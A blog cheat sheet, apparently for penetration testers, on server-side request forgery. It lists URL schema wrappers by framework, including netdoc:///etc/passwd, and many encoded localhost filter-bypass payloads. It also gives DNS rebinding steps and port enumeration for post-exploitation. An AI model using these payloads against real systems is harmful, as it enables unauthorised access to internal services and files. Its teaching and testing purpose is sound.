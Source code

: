 ```yaml
---
layout: blog_item
title: "SSRF Cheat Sheet & Bypass Techniques"
date:   2021-05-30 09:29:10
author: Arr0way
description: 'SSRF explained and the techniques to indentify, and bypass server side SSRF filtering.'
categories: [cheat-sheet]
tags:
- SSRF
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is SSRF? 

Server Side Request Forgery (SSRF) is a web vulnerability that allows an attacker to exploit vulnerable functionality to access server side or local network services / functionality by affectively traversing the external firewall using vulnerable web functionality. 

Another way to think of this would be to imagine the web applications vulnerable function is a web browser, that will allow you to pivot / relay request to the internal interface addresses, loopback or internal network to access services (effectively traversing the WAF or firewall). 

An example of this could be a web function that allows the adding of a URL or third-party service, this could then be exploited to access internal or local IP address. 

After identifying SSRF on applications running modern frameworks or a WAF, more work will be required in an effort to defeat the protection / filtering that is in place, and allow for successful SSRF exploitation. 

<!--more-->


## Identifying Potential Locations for SSRF

Any functionality that allows external service interaction is a good stating point, any where that accepts a third party URL or service integration.

## How to Find SSRF Vulnerabilities 

In order to identify a SSRF vulnerability the first step is confirming that the functionality is vulnerable, an easy / scalable way to do this <a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">is using your own Burp Collaborator on Linode using this link to get a  $100 voucher</a>. Burp Collaborator will easily allow you to assess if out-of-band interaction is possible (the target server directly accessing a server you control). 

<div class="note tip">
  <h5>PRO TIP: Run Your Own Collaborator Server</h5>
  <p>If you are taking part in bug bounty programs run your own Burp Collaborator  server as often the default Burp Collaborator service domain is filtered, giving you an increased chance of detection.</p>
    
    <p><a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode works great for this</a>, it's cheap, fixed price and has a direct public IP address.</p>
</div>

It should be noted that a function may still, potentially be vulnerable even if not identifid via Burp Collaborator, this is typically due to the target server not allowing outbound dns or strict egress firewall rules.  

## SSRF Whitelist Filter Bypass 

### Timing Difference

At the detection phase, try timing difference on responses to see if there is filtering in place when different domains, IP's or ports are being fitlered. 

### URL Schema / Wrappers

The following URL schemas can be potentially exploited by SSRF vulnerabilies. 

The URL schemas have been sorted by framework / language. 



#### PHP SSRF Wrappers / URL Schema 

The following wrappers are potentiall expected URL schema wrappers found within PHP environments (for some schema curl-wrappers would need to be enabled). 

{% highlight bash %}
gopher://
fd://
expect://
ogg://
tftp://
dict://
ftp://
ssh2://
file://
http://
https://
imap://
pop3://
mailto://
smtp://
telnet://
{% endhighlight %}

#### ASP.NET SSRF Wrappers / URL Schema 

The following wrappers are potentiall expected URL schema wrappers found within ASP.NET environments (gopher legacy only). 

{% highlight bash %}
gopher://
ftp://
file://
http://
https://
{% endhighlight %}

#### Java SSRF Wrappers / URL Schema 

The following wrappers are expected within Java environments, and can be used to potentially exploit [LFI](https://highon.coffee/blog/lfi-cheat-sheet/) vulnerabilities. 

{% highlight bash %} 
ftp://
file://
http://
https://
gopher://
netdoc:///etc/passwd
netdoc:///etc/hosts
jar:proto-schema://blah!/
jar:http://localhost!/
jar:http://127.0.0.1!/
jar:http://0.0.0.0!/
jar:ftp://local-domain.com!/
{% endhighlight %}

<div class="note tip">
  <h5>NOTE: OpenJDK 8+ Redirects</h5>
  <p>It should be noted that OpenJDK 8+ does not follow redirects if the protocols do not match. </p>
</div>



#### cURL SSRF Wrappers / URL Schema 

The following wrappers are expected with environments using cURL. 

{% highlight bash %}
file:///
dict://
sftp://
ldap://
tftp://
gopher://
ssh://
http://
https://
imap://
pop3://
smtp://
telnet://
{% endhighlight %}


### Open Redirect SSRF Bypass 

Open redirects can potentially be used to bypass server side whitelist filtering, by appearing to be from the target domain (which has an increased chance of being whitelisted).

Example: 

{% highlight bash %}
/foo/bar?vuln-function=http://127.0.0.1:8888/secret
{% endhighlight %}

### Basic locahost bypass attempts 

Localhost bypass:

{% highlight bash %}
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001
{% endhighlight %}

various bypasses: 

{% highlight bash %}
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/
{% endhighlight %}


### hosts file bypass attempts 

### Enclosed Alphanumeric 

{% highlight bash %}
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
{% endhighlight %}

## DNS rebinding attempts 

### What is a DNS rebinding attack?

In certain situations a target function may check a hostname "blindly" against a whitelist/blacklist without verification of the the resolution IP address. Once the hostname has been determined OK by the above function it is then passed to the function which it is intended to protect.

### How to exploit a vulnerable function

You can setup a DNS server that resolves to the whitelist, then have a short TTL which changes to the IP you want to exploit e.g. 127.0.0.1 for SSRF, or any other internal IP. 

Fortunately taviso has built a [service for this](https://github.com/taviso/rbndr) which you can use to generate a dword subdomain and use against your target. The downside to this service is that it appears to flip the resolution IP back and forth, so it may change during the attack. 

You can use the follow web app to generate your rebinder domain: https://lock.cmpxchg8b.com/rebinder.html

To overcome this issue, have one of the resolution IP addresses in your control and verify the response of that IP request, to help determine if the target functionality is vulnerable.

1. go to https://lock.cmpxchg8b.com/rebinder.html add your IP's
2. check it works with host 
3. attempt to exploit the SSRF location with it


## Post Exploitation / Enumeration

In an effort to demonstrate the severity of the SSRF vulnerability enumeration of server side ports could be performed using Burp Intruder. 

The above process could be performed to enumerate other local IP addresses and/or bruteforcing URL (IDOR / Forced Browsing) to identify services or functionality that was not intended by the organisation. 


Happy hunting / pen testing. 
